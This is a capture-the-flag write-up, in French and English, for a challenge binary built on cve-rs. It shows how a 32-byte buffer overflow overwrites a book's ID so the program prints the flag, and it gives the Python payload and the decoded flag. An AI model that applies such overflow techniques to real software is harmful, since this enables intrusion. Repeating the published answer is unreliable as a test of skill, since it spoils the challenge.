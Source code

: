 # Safe but Unsafe Rust

## Write-up FR



En exécutant le binaire on obtient une liste de commandes:
```
./prieure 
cve-rs 0.6.0
Speykious:BrightShard:Creative0708
Blazingly fast memory vulnerabilities, written in 100% safe Rust.

Usage: prieure [COMMAND]

Commands:
  solve  Solve the puzzle that protects the Prieure de la Rouille's secret.
  help   Print this message or the help of the given subcommand(s)
  ```

Nous avons la commande solve et un indice que ce challenge est basé sur cve-rs. Exécutons la commande solve:

```
./prieure solve
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book:
```

Nous avons une indication sur une valeur en lien avec le flag mais nous ne savons pas ce que c'est. En donnant un titre au hasard, on obtiens:
```
./prieure solve
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book: aalo

Your message is at: 0
FLAG: [97, 97, 108, 111, 10, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
```

Ceci n'est pas un flag valide...

Cependant, nous avons une indication que notre message est à 0. À ce stade, il est nécessaire de regarder le binaire dans Ghidra. Le main exécute la fonction cve_rs::main:

```
void main(int param_1,undefined8 param_2)

{
  std::rt::lang_start(cve_rs::main,(long)param_1,param_2,0);
  return;
}
```

Dans cette fonction, on voit notre commande solve qui exécute buffer_overflow::buffer_overflow() (ce qui nous donne un bon indice sur le challenge aussi).

```
  else {
    uVar3 = buffer_overflow::buffer_overflow();
```

Dans cette fonction, on a la lecture du flag:
```
  std::fs::File::open(local_4c8,
                      "flag.txt
```

Il faut alors trouver la structure Message et ses attributs. On peut le faire de plusieurs façons (statique, dynamique) mais on a aussi un debug print dans le binaire qui nous aide à trouver l'offset de l'overflow d'un attribut à l'autre. En trouvant l'offset 32 on peut commencer à changer la valeur écrite à l'écran:

```
./prieure solve 
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Your message is at: 2625
FLAG: [65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65]
```

On voit maintenant notre entrée en mémoire mais pas de flag... Essayons de mettre la même valeur que celle du flag:

```
python
hex(117637889)
0x7030301
with open("payload", "wb") as payload_file:
    payload_file.write(b"A"*32 + "\x01\x03\x03\x07\n")

./prieure solve < payload 
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book: 
Your message is at: 117637889
FLAG: [112, 111, 108, 121, 99, 121, 98, 101, 114, 123, 76, 52, 95, 82, 48, 85, 49, 76, 76, 51, 95, 67, 52, 95, 66, 82, 49, 53, 51, 125, 10, 0]
FLAG: [65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65]
```

On obtient alors le flag car le programme va écrire tous les messages avec le même ID!

```
python
>>> flag = [112, 111, 108, 121, 99, 121, 98, 101, 114, 123, 76, 52, 95, 82, 48, 85, 49, 76, 76, 51, 95, 67, 52, 95, 66, 82, 49, 53, 51, 125, 10, 0]
>>> "".join(chr(c) for c in flag)
'polycyber{L4_R0U1LL3_C4_BR153}\n\x00'
```

## Write-up EN

When executing the binary, we get some commands to try:
```
./prieure 
cve-rs 0.6.0
Speykious:BrightShard:Creative0708
Blazingly fast memory vulnerabilities, written in 100% safe Rust.

Usage: prieure [COMMAND]

Commands:
  solve  Solve the puzzle that protects the Prieure de la Rouille's secret.
  help   Print this message or the help of the given subcommand(s)
  ```

The solve command is there with a hint that this challenge is based on cve-rs. Let's try the solve command:

```
./prieure solve
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book:
```

With have a value linked with the flag and asked to provide a title:

```
./prieure solve
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book: aalo

Your message is at: 0
FLAG: [97, 97, 108, 111, 10, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
```

That's not a valid flag...

That being said, we have an indication that our message is at 0. Let's go check the binary in Ghidra. The binary's main function executes the cve_rs::main:

```
void main(int param_1,undefined8 param_2)

{
  std::rt::lang_start(cve_rs::main,(long)param_1,param_2,0);
  return;
}
```

Within this function, we can see our solve command executing the buffer_overflow::buffer_overflow() function (which is also a pretty good hint). 

```
  else {
    uVar3 = buffer_overflow::buffer_overflow();
```

In this function, we can see that it reads the flag:
```
  std::fs::File::open(local_4c8,
                      "flag.txt
```

We then need to figure out the structure we need to overflow. This can be done statically and dynamically, but we also have a handy debug print in our binary which we can use to find the offset. When entering more than 32 chars, you'll start to see changes in the ID of the book you entered:

```
./prieure solve 
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Your message is at: 2625
FLAG: [65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65]
```

We can see our input but no flag. Let's try to match those values:

```
python
hex(117637889)
0x7030301
with open("payload", "wb") as payload_file:
    payload_file.write(b"A"*32 + "\x01\x03\x03\x07\n")

./prieure solve < payload 
Flag is at: 117637889
Insert a new book in the library. Provide the title of the book: 
Your message is at: 117637889
FLAG: [112, 111, 108, 121, 99, 121, 98, 101, 114, 123, 76, 52, 95, 82, 48, 85, 49, 76, 76, 51, 95, 67, 52, 95, 66, 82, 49, 53, 51, 125, 10, 0]
FLAG: [65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65, 65]
```

We then get the flag as our program prints every book with the same ID as ours.

```
python
>>> flag = [112, 111, 108, 121, 99, 121, 98, 101, 114, 123, 76, 52, 95, 82, 48, 85, 49, 76, 76, 51, 95, 67, 52, 95, 66, 82, 49, 53, 51, 125, 10, 0]
>>> "".join(chr(c) for c in flag)
'polycyber{L4_R0U1LL3_C4_BR153}\n\x00'
```

## Flag

`polycyber{L4_R0U1LL3_C4_BR153}`
